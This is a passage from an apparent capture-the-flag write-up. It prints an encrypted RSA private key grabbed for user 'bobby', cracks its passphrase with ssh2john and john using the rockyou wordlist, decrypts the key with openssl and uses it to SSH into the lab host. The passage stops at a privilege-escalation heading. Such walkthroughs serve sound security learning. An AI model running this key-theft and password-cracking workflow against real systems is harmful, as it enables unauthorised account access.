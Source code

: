 Attachment “bobby.key.enc” (decoded):

{% highlight matlab %}
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: DES-EDE3-CBC,53D881F299BA8503
SeCNYw/BsXPyQq1HRLEEKhiNIVftZagzOcc64ff1IpJo9IeG7Z/zj+v1dCIdejuk
7ktQFczTlttnrIj6mdBb6rnN6CsP0vbz9NzRByg1o6cSGdrL2EmJN/eSxD4AWLcz
n32FPY0VjlIVrh4rjhRe2wPNogAciCHmZGEB0tgv2/eyxE63VcRzrxJCYl+hvSZ6
fvsSX8A4Qr7rbf9fnz4PImIgurF3VhQmdlEmzDRT4m/pqf3TmGAk9+wriqnkODFQ
I+2I1cPb8JRhLSz3pyB3X/uGOTnYp4aEq+AQZ2vEJz3FfX9SX9k7dd6KaZtSAzqi
w981ES85Dk9NUo8uLxnZAw3sF7Pz4EuJ0Hpo1eZgYtKzvDKrrw8uo4RCadx7KHRT
inKXduHznGA1QROzZW7xE3HEL3vxR9gMV8gJRHDZDMI9xlw99QVwcxPcFa31AzV2
yp3q7yl954SCMOti4RC3Z4yUTjDkHdHQoEcGieFOWU+i1oij4crx1LbO2Lt8nHK6
G1Ccq7iOon4RsTRlVrv8liIGrxnhOY295e9drl7BXPpJrbwso8xxHlT3333YU9dj
hQLNp5+2H4+i6mmU3t2ogToP4skVcoqDlCC+j6hDOl4bpD9t6TIJurWxmpGgNxes
q8NsAentbsD+xl4W6q5muLJQmj/xQrrHacEZDGI8kWvZE1iFmVkD/xBRnwoGZ5ht
DyilLPpl9R+Dh7by3lPm8kf8tQnHsqpRHceyBFFpnq0AUdEKkm1LRMLAPYILblKG
jwrCqRvBKRMIl6tJiD87NM6JBoQydOEcpn+6DU+2Actejbur0aM74IyeenrGKSSZ
IZMsd2kTSGUxy9o/xPKDkUw/SFUySmmwiqiFL6PaDgxWQwHxtxvmHMhL6citNdIw
TcOTSJczmR2pJxkohLrH7YrS2alKsM0FpFwmdz1/XDSF2D7ibf/W1mAxL5UmEqO0
hUIuW1dRFwHjNvaoSk+frAp6ic6IPYSmdo8GYYy8pXvcqwfRpxYlACZu4Fii6hYi
4WphT3ZFYDrw7StgK04kbD7QkPeNq9Ev1In2nVdzFHPIh6z+fmpbgfWgelLHc2et
SJY4+5CEbkAcYEUnPWY9SPOJ7qeU7+b/eqzhKbkpnblmiK1f3reOM2YUKy8aaleh
nJYmkmr3t3qGRzhAETckc8HLE11dGE+l4ba6WBNu15GoEWAszztMuIV1emnt97oM
ImnfontOYdwB6/2oCuyJTif8Vw/WtWqZNbpey9704a9map/+bDqeQQ41+B8ACDbK
WovsgyWi/UpiMT6m6rX+FP5D5E8zrYtnnmqIo7vxHqtBWUxjahCdnBrkYFzl6KWR
gFzx3eTatlZWyr4ksvFmtobYkZVAQPABWz+gHpuKlrqhC9ANzr/Jn+5ZfG02moF/
edL1bp9HPRI47DyvLwzT1/5L9Zz6Y+1MzendTi3KrzQ/Ycfr5YARvYyMLbLjMEtP
UvJiY40u2nmVb6Qqpiy2zr/aMlhpupZPk/xt8oKhKC+l9mgOTsAXYjCbTmLXzVrX
15U210BdxEFUDcixNiwTpoBS6MfxCOZwN/1Zv0mE8ECI+44LcqVt3w==
-----END RSA PRIVATE KEY-----
{% endhighlight %}

Now that we managed to grab the private RSA key for user _bobby_, we need to decrypt it since it is protected with a passphrase (using triple DES as the encryption algorithm with CBC mode). We will use `ssh2john` to extract the hash, and `john` to brute force the value (which will eventually give us the password _"jackychain"_):

{% highlight console %}
$ ssh2john bobby.key.enc > bobby-hash.txt
$ john bobby-hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
...
jackychain       (bobby.key.enc)
1g 0:00:05:53 DONE (2018-12-13 23:04) 0.002828g/s 20435p/s 20435c/s 20435C/s jackychain
...
$ openssl rsa -in bobby.key.enc -out bobby.key -passin pass:jackychain
$ ssh -i bobby.key bobby@10.10.10.142
{% endhighlight %}

After logging in, we get the user flag (_af8d9d..._).

## 4. Privilege Escalation

